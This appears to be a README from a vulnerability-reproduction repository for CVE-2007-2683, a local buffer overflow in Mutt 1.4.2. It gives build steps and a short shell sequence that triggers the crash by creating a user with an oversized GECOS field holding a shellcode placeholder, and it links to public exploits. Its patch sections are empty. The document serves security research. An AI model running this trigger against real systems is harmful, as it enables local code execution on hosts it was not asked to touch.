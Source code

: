 # CVE-2007-2683

## Experiment Environment

Ubuntu 8.10

## INSTALL & Configuration

```
wget https://github.com/mudongliang/source-packages/raw/master/CVE-2007-2683/mutt-1.4.2.2i.tar.gz
tar -xvf mutt-1.4.2.2i.tar.gz
cd mutt-1.4.2.2
./configure
make
```

## Problems in Installation & Configuration

## How to trigger vulnerability

```
USERNAME=$(perl -e 'print "a" x 31')
useradd -c '&&&&&&&&& your-favourite-ascii-shellcode-here' $USERNAME
echo alias billg $USERNAME >~/.muttrc
./mutt billg
Segmentation fault (core dumped)
```

## PoCs

[Mutt Mutt_Gecos_Name Function Local Buffer Overflow Vulnerability](https://www.securityfocus.com/bid/24192/exploit)

[Mutt 1.4.2 - Mutt_Gecos_Name Function Local Buffer Overflow](https://www.exploit-db.com/exploits/30093/)

## Vulnerability Patch

### Root Cause

### Stack Trace

### Patch

## References
